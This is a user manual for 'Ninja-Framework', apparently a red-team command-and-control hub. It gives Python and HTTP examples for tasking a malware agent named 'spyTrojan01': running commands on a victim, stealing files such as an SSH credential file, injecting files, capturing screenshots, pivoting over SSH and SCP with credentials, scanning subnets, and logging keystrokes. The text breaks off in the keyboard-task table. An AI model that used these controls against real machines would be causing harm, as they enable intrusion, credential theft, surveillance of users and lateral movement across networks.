# Ninja-Framework User Manual

This user manual will show user(red team attack) how to use the c2Client API, normal HTTP/HTTPS request and web tasks management dashboard UI to monitor and control the Ninja agent malware's malicious action with the RTC2 hub program.

The tasks control and attack implement flow is shown below:



` Figure-00: Attakc task managment workflow diagram, version v0.2.3 (2024)`

The document contents two types of API:

- **C2 Function API** : User can use this type of API to interact with the RTC2 Hub. 
- **Malware Task API**: User can use the type of API to interact with the malware agent via RTC2 Hub.

Each API will provide three way to use:

- **Use C2 client API**: Import the `c2Client.py` module in your python program and call the related functions.
- **Use normal http/https request**: If you use other programming language, set the http/https GET/POST request to C2 will the JSON parameter config .
- **Use Web UI**: Open the C2 web dashboard and select the related function then fill in the parameters.

```
# Created:     2024/05/23
# version:     v0.2.3
# Copyright:   Copyright (c) 2024 LiuYuancheng
# License:     MIT License
```

**Table of Contents**

[TOC]

- [Ninja-Framework User Manual](#ninja-framework-user-manual)
    + [RTC2 Function API](#rtc2-function-api)
      - [Function [01] Download file from C2 to local host](#function--01--download-file-from-c2-to-local-host)
      - [Function [02] Upload a local file to C2 server](#function--02--upload-a-local-file-to-c2-server)
    + [Malware Task API](#malware-task-api)
      - [Attack Task [01] Run commands on victim](#attack-task--01--run-commands-on-victim)
      - [Attack Task [02] Steal file from victim to C2-DB](#attack-task--02--steal-file-from-victim-to-c2-db)
      - [Attack Task [03] Inject file from C2-DB to victim](#attack-task--03--inject-file-from-c2-db-to-victim)
      - [Attack Task [04] Capture victim screenshot and upload to C2-DB](#attack-task--04--capture-victim-screenshot-and-upload-to-c2-db)
      - [Attack Task [05] SSH to target and run command from victim](#attack-task--05--ssh-to-target-and-run-command-from-victim)
      - [Attack Task [06] SCP file from victim to target](#attack-task--06--scp-file-from-victim-to-target)
      - [Attack Task [07] Scan victim sub-network IPs](#attack-task--07--scan-victim-sub-network-ips)
      - [Attack Task [08] Generate or record keyboard event](#attack-task--08--generate-or-record-keyboard-event)
      - [Attack Task [09] Eavesdrop victim's traffic in pcap file](#attack-task--09--eavesdrop-victim-s-traffic-in-pcap-file)
      - [Attack Task [10] Add customized special](#attack-task--10--add-customized-special)
    + [Run API Test Cases Program](#run-api-test-cases-program)


------

### RTC2 Function API

The RTC2 Function API is used for red team attack to interact with the C2 server.


#### Function [01] Download file from C2 to local host

Description: Download files from the RTC2's database to the red team attacker's local storage.

**Use C2 client API** : 

```
c2Client.downloadfile(fileName, fileDir=dirpath)
```

- fileName: file name in RTC2 DB storage .
- fileDir: local file storage directory path.

**Use normal http/https request**

- API URL: `http(s)://<ip>:<port>/filedownload`
- Request type: `GET`
- Example: 

```
res = requests.get("http://127.0.0.1:5000/filedownload", json={"filename": 'readme.pdf'}, allow_redirects=True, verify=False) # set allow redirect to by pass load balancer
filePath = os.path.join(dirpath, 'readme.pdf')
if res.ok:
    with open(filePath, 'wb') as fh:
    	fh.write(res.content)
```

**Use Web UI**

- Main page => Malware management page [`http://127.0.0.1:5000/malwaremgmt`] => RTC2 File Storage Management => Download a file from C2 to local. ( as shown below )
- Select the download file from the drop down menu then press the `Download` button. 



` Figure-01: Download file from C2 via agent management dashboard, version v0.2.3 (2024)`


#### Function [02] Upload a local file to C2 server 

Description: Upload a file from the red team attacker's local storage to RTC2 database.

**Use C2 client API** : 

```
c2Client.uploadfile(filePath)
```

- filePath: local file path. 

**Use normal http/https request**

- API URL: `http(s)://<ip>:<port>/fileupload`
- Request type: `POST`
- Example: 

```
rst = requests.post(http://127.0.0.1:5000/fileupload, files={'file': (fileName, fh.read())}, verify=False)
```

**Use Web UI**

- Main page => Malware management page [`http://127.0.0.1:5000/malwaremgmt`] => RTC2 File Storage Management => Upload a local file to C2 server. ( as shown below )
- Select the `Choose file` to select the local file then press the `upload` button. 



` Figure-02: Upload a file to C2 via agent management dashboard, version v0.2.3 (2024)`


------

### Malware Task API

The Malware Task API is used for red team attacker to assign task to the malware connected to RTC2. 


#### Attack Task [01] Run commands on victim

Description: Run one or multiple commands in the list sequence on the victim and archive the result in the C2 Data base.

**Use C2 client API**

- Function:  `c2Client.postTask(malware1id, testTaskJson)`
- Task type code: `c2Constants.TSK_TYPE_CMD`
- Task data/parameters: list of command string.
- Example:

```python
# c2AppAPITest.py : testcase3()
malware1id = 'spyTrojan01'
testTaskJson = {
    'taskType'  : c2Constants.TSK_TYPE_CMD,
    'startT'    : None,
    'repeat'    : 1,
    'exePreT'   : 0,
    'state'     : c2Constants.TASK_P_FLG,
    'taskData'  : ['ipconfig']
}
c2Client.postTask(malware1id, testTaskJson)
```

**Use normal http/https request**

- API URL: `http(s)://<ip>:<port>/taskPost` 
- Request type: `POST`
- Example: 

```python
# c2AppAPITest.py : testcase4()
jsonDict = {
    'id': malware1id, 
    'taskType'  : 'command',
    'startT'    : None,
    'repeat'    : 1,
    'exePreT'   : 0,
    'state'     : 0,
    'taskData'  : ['dir']
}
requests.post("http://%s:%s/taskPost" % (c2IP[0], c2IP[1]), json=jsonDict, allow_redirects=True, verify=False)
```

**Use Web UI**

- Main page => Malware management page [`http://127.0.0.1:5000/malwaremgmt`] => RTC2 File Storage Management => Malware state overview table => Select the malware (link to task detail)
- Malware Task Dashboard => Assign New Task to Malware => select `01. Run commands on victim` => Fill in the command string => Press `submit` button
- When the task state change to "finished", press the "show task result" to check the commands execution result.



` Figure-03: Steps to set run command on victim via management dashboard, version v0.2.3 (2024)`


#### Attack Task [02] Steal file from victim to C2-DB

Description: Search multiple files on victim based on the file path list and upload found files from victim local storage to RTC2's cloud storage data base. 

**Use C2 client API**

- Function:  `c2Client.postTask(malware1id, testTaskJson)`
- Task type code: `c2Constants.TSK_TYPE_UPLOAD`
- Task data/parameters: list of file path attacker want to steal.
- Example:

```python
# c2AppAPITest.py : testcase5()
malware1id = 'spyTrojan01'
testTaskJson = {
    'taskType'  : c2Constants.TSK_TYPE_UPLOAD,
    'startT'    : None,
    'repeat'    : 1,
    'exePreT'   : 0,
    'state'     : c2Constants.TASK_P_FLG,
    'taskData'  : ['C:\\Works\\Download\\sshCredential.txt']
}
c2Client.postTask(malware1id, testTaskJson)
```

**Use normal http/https request**

- API URL: `http(s)://<ip>:<port>/taskPost` 
- Request type: `POST`
- Example: 

```python
# c2AppAPITest.py : testcase6()
malware1id = 'spyTrojan01'
jsonDict = {
    'id': malware1id, 
    'taskType'  : 'upload',
    'startT'    : None,
    'repeat'    : 1,
    'exePreT'   : 0,
    'state'     : 0,
    'taskData'  : ['dir']
}
requests.post("http://%s:%s/taskPost" % (c2IP[0], c2IP[1]), json=jsonDict, allow_redirects=True, verify=False)
```

**Use Web UI**

- Main page => Malware management page [`http://127.0.0.1:5000/malwaremgmt`] => RTC2 File Storage Management => Malware state overview table => Select the malware (link to task detail)
- Malware Task Dashboard => Assign New Task to Malware => Select `02. Steal file from victim to C2-DB` => Fill in the victim targeted file path => Press `submit` button
- When the task state change to "finished", press the "show task result" to check the execution result or use the management page to download the file.



` Figure-04: Steps to steal a file from victim via management dashboard, version v0.2.3 (2024)`


#### Attack Task [03] Inject file from C2-DB to victim

Description: Inject a file/attack_module from RTC2's cloud storage data base into the victim's local storage. 

**Use C2 client API**

- Function:  `c2Client.postTask(malware1id, testTaskJson)`
- Task type code: `c2Constants.TSK_TYPE_DOWNLOAD`
- Task data/parameters: list of inject files name
- Example:

```python
# c2AppAPITest.py : testcase7()
malware1id = 'spyTrojan01'
testTaskJson = {
    'taskType'  : c2Constants.TSK_TYPE_DOWNLOAD,
    'startT'    : None,
    'repeat'    : 1,
    'exePreT'   : 0,
    'state'     : c2Constants.TASK_P_FLG,
    'taskData'  : ['picctureTestDownload.png']
}
c2Client.postTask(malware1id, testTaskJson)
```

**Use normal http/https request**

- API URL: `http(s)://<ip>:<port>/taskPost` 
- Request type: `POST`
- Example: 

```python
# c2AppAPITest.py : testcase8()
malware1id = 'spyTrojan01'
jsonDict = {
    'id'        : malware1id, 
    'taskType'  : 'download',
    'startT'    : None,
    'repeat'    : 1,
    'exePreT'   : 0,
    'state'     : 0,
    'taskData'  : ['picctureTestDownload.png']
}
requests.post("http://%s:%s/taskPost" % (c2IP[0], c2IP[1]), json=jsonDict, allow_redirects=True, verify=False)
```

**Use Web UI**

- Main page => Malware management page [`http://127.0.0.1:5000/malwaremgmt`] => RTC2 File Storage Management => Malware state overview table => Select the malware (link to task detail)
- Malware Task Dashboard => Assign New Task to Malware => Select `03. Inject file from C2-DB to victim` => Select the inject file from the drop down menu => Press `inject` button
- When the task state change to "finished", press the `show task result` button to check the execution result. If result shows file transferred, means the file injection successful. 



` Figure-05: Steps to inject a file from C2 to victim via management dashboard, version v0.2.3 (2024)`


#### Attack Task [04] Capture victim screenshot and upload to C2-DB

Description: Capture a screenshot of the victim's desktop and upload the image file to RTC2's cloud storage data base. 

**Use C2 client API**

- Function:  `c2Client.postTask(malware1id, testTaskJson)`
- Task type code: `c2Constants.TSK_TYPE_SCREENST`
- Task data/parameters: None or 'None' or screen shot file name.
- Example:

```python
# c2AppAPITest.py : testcase9()
malware1id = 'spyTrojan01'
testTaskJson = {
    'taskType'  : c2Constants.TSK_TYPE_SCREENST,
    'startT'    : None,
    'repeat'    : 1,
    'exePreT'   : 0,
    'state'     : c2Constants.TASK_P_FLG,
    'taskData'  : 'None'
}
c2Client.postTask(malware1id, testTaskJson)
```

**Use normal http/https request**

- API URL: `http(s)://<ip>:<port>/taskPost` 
- Request type: `POST`
- Example: 

```python
# c2AppAPITest.py : testcase10()
malware1id = 'spyTrojan01'
jsonDict = {
    'id'        : malware1id, 
    'taskType'  : 'screenShot',
    'startT'    : None,
    'repeat'    : 1,
    'exePreT'   : 0,
    'state'     : 0,
    'taskData'  : None
}
requests.post("http://%s:%s/taskPost" % (c2IP[0], c2IP[1]), json=jsonDict)
```

**Use Web UI**

- Main page => Malware management page [`http://127.0.0.1:5000/malwaremgmt`] => RTC2 File Storage Management => Malware state overview table => Select the malware (link to task detail)
- Malware Task Dashboard => Assign New Task to Malware => Select `04. Capture victim screenshot to C2-DB` Press `submit` button
- When the task state change to "finished", press the `show task result` button to check the execution result. The uploaded screen shot file name will be shown in the result. 



` Figure-06: Steps to capture victim screenshot via management dashboard, version v0.2.3 (2024)`


#### Attack Task [05] SSH to target and run command from victim

Description: Control the victim machine to SSH login to another machine linked to the victim and run command on that machine. 

**Use C2 client API**

- Function:  `c2Client.postTask(malware1id, testTaskJson)`
- Task type code: `c2Constants.TSK_TYPE_SSH`
- Task data/parameters: `str(<target_IP_address>;<user_name>;<password_str>;<command_string>)`
- Example:

```python
# c2AppAPITest.py : testcase11()
malware1id = 'spyTrojan01'
targetIP = str(input("Input target IP : "))
userName = str(input("Input UserName : "))
password = str(input("Input Password : "))
command = str(input("Input command : "))
testTaskJson = {
    'taskType'  : c2Constants.TSK_TYPE_SSH,
    'startT'    : None,
    'repeat'    : 1,
    'exePreT'   : 0,
    'state'     : c2Constants.TASK_P_FLG,
    'taskData'  : ';'.join((targetIP, userName, password, command))
}
c2Client.postTask(malware1id, testTaskJson)
```

**Use normal http/https request**

- API URL: `http(s)://<ip>:<port>/taskPost` 
- Request type: `POST`
- Example: 

```python
# c2AppAPITest.py : testcase12()
malware1id = 'spyTrojan01'
targetIP = str(input("Input target IP/Domain  : "))
userName = str(input("Input UserName : "))
password = str(input("Input Password : "))
command = str(input("Input command : "))
jsonDict = {
    'id'        : malware1id, 
    'taskType'  : 'sshRun',
    'startT'    : None,
    'repeat'    : 1,
    'exePreT'   : 0,
    'state'     : 0,
    'taskData'  : ';'.join((targetIP, userName, password, command))
}
requests.post("http://%s:%s/taskPost" % (c2IP[0], c2IP[1]), json=jsonDict)
```


**Use Web UI**

- Main page => Malware management page [`http://127.0.0.1:5000/malwaremgmt`] => RTC2 File Storage Management => Malware state overview table => Select the malware (link to task detail)
- Malware Task Dashboard => Assign New Task to Malware => Select `05. SSH to Target and Run Cmd from victim` => Fill in the parameters `SSH target IP`, `SSH User Name`,  `SSH User Password`  and `SSH Command`, then press `submit` button. 
- When the task state change to "finished", press the `show task result` button to check the execution result. 



` Figure-07: Steps to SSH run command from victim via management dashboard, version v0.2.3 (2024)`


#### Attack Task [06] SCP file from victim to target

Description: SCP a file from victim storage to the SSH connected target node's logic user's home folder.

**Use C2 client API**

- Function:  `c2Client.postTask(malware1id, testTaskJson)`
- Task type code: `c2Constants.TSK_TYPE_SCP
- Task data/parameters: `str(<target_IP_address>;<user_name>;<password_str>;<filename_string>)`
- Example:

```python
# c2AppAPITest.py : testcase13()
malware1id = 'spyTrojan01'
targetIP = str(input("Input target IP/Domain : "))
userName = str(input("Input UserName : "))
password = str(input("Input Password : "))
filename = str(input("Input TSK_TYPE_SCP : "))
testTaskJson = {
    'taskType': c2Constants.TSK_TYPE_SCP,
    'startT': None,
    'repeat': 1,
    'exePreT': 0,
    'state': c2Constants.TASK_P_FLG,
    'taskData': ';'.join((targetIP, userName, password, filename))
}
c2Client.postTask(malware1id, testTaskJson)
```

**Use normal http/https request**

- API URL: `http(s)://<ip>:<port>/taskPost` 
- Request type: `POST`
- Example: 

```python
# c2AppAPITest.py : testcase14()
malware1id = 'spyTrojan01'
targetIP = str(input("Input target IP/Domain  : "))
userName = str(input("Input UserName : "))
password = str(input("Input password : "))
command = str(input("Input filename : "))
jsonDict = {
    'id'        : malware1id, 
    'taskType'  : 'scpFile',
    'startT'    : None,
    'repeat'    : 1,
    'exePreT'   : 0,
    'state'     : 0,
    'taskData'  : ';'.join((targetIP, userName, password, command))
}
requests.post("http://%s:%s/taskPost" % (c2IP[0], c2IP[1]), json=jsonDict)
```

**Use Web UI**

- Main page => Malware management page [`http://127.0.0.1:5000/malwaremgmt`] => RTC2 File Storage Management => Malware state overview table => Select the malware (link to task detail)
- Malware Task Dashboard => Assign New Task to Malware => Select `06. SCP file from victim to target` => Fill in the parameters `SSH target IP`, `SSH User Name`,  `SSH User Password`  and `Scp file name`, then Press `submit` button. 
- When the task state change to "finished", press the `show task result` button to check the execution result. 



` Figure-08: Steps to SCP file from victim to target via management dashboard, version v0.2.3 (2024)`


#### Attack Task [07] Scan victim sub-network IPs

Description: Scan the subnet victim node in and find all the touchable nodes IP addresses.

**Use C2 client API**

- Function:  `c2Client.postTask(malware1id, testTaskJson)`
- Task type code: `c2Constants.TSK_TYPE_SCANNET`
- Task data/parameters: subnet string under format `xxx.xxx.xxx.0/24`
- Example:

```python
# c2AppAPITest.py : testcase15()
malware1id = 'spyTrojan01'
testTaskJson = {
    'taskType': c2Constants.TSK_TYPE_SCANNET,
    'startT': None,
    'repeat': 1,
    'exePreT': 0,
    'state': c2Constants.TASK_P_FLG,
    'taskData': '172.25.120.0/24'
}
c2Client.postTask(malware1id, testTaskJson)
```

**Use normal http/https request**

- API URL: `http(s)://<ip>:<port>/taskPost` 
- Request type: `POST`
- Example: 

```python
# c2AppAPITest.py : testcase16()
malware1id = 'spyTrojan01'
jsonDict = {
    'id'        : malware1id, 
    'taskType'  : 'scanSubnet',
    'startT'    : None,
    'repeat'    : 1,
    'exePreT'   : 0,
    'state'     : 0,
    'taskData'  : '172.25.120.0/24'
}
requests.post("http://%s:%s/taskPost" % (c2IP[0], c2IP[1]), json=jsonDict)
```

**Use Web UI**

- Main page => Malware management page [`http://127.0.0.1:5000/malwaremgmt`] => RTC2 File Storage Management => Malware state overview table => Select the malware (link to task detail)
- Malware Task Dashboard => Assign New Task to Malware => Select `07. Scan victim sub-network IPst` => Fill in the parameters `subnet IP range` , then Press `submit` button. 
- When the task state change to "finished", press the `show task result` button to check the execution result. All the IP addresses found in the subnet will be shown in the result. 



` Figure-09: Steps to Scan victim sub-network IPs via management dashboard, version v0.2.3 (2024)`


#### Attack Task [08] Generate or record keyboard event

Description: Generate or record the keyboard action/event on the victim machine. 

**Use C2 client API**

- Function:  `c2Client.postTask(malware1id, testTaskJson)`
- Task type code: `c2Constants.TSK_TYPE_KEYBD`
- Task data/parameters: `keyboard_function_command;keyboard_parameter`
- Example:

```python
# c2AppAPITest.py : testcase17()
malware1id = 'spyTrojan01'
testTaskJson = {
    'taskType': c2Constants.TSK_TYPE_KEYBD,
    'startT': None,
    'repeat': 1,
    'exePreT': 0,
    'state': c2Constants.TASK_P_FLG,
    'taskData': 'typeInStr;Hello world!'
}
c2Client.postTask(malware1id, testTaskJson)
```

Action parameters config list: 

| Function                                                  | Command   | parameter       |
| --------------------------------------------------------- | --------- | --------------- |
| Start record keyboard input for (n sec)                   | startRcd  | int(recordTime) |
| Stop record keyboard input                                | stopRcd   | None            |
